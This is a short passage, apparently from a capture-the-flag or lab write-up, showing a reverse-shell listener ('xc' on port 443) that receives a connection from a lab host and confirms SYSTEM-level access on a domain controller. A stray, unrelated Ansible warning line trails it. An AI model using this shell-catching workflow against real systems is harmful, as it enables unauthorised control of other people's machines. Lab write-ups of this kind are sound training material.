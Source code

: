 And I grab my shell

```
hcue@pjsk:/opt/xc(master○) » ./xc -l -p 443                                                                                                                                                                                            1 ↵

		__  _____
		\ \/ / __|
		>  < (__
		/_/\_\___| by @xct_de
		           build: XBWQOEYPUG

2022/12/05 09:05:16 Listening on :443
2022/12/05 09:05:16 Waiting for connections...
2022/12/05 09:07:06 Connection from 10.129.254.249:63732
2022/12/05 09:07:06 Stream established

[*] Auto-Plugins:
[xc: C:\Windows\system32]: whoami
nt authority\system
[xc: C:\Windows\system32]: hostname
LOOKOUT-DC
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that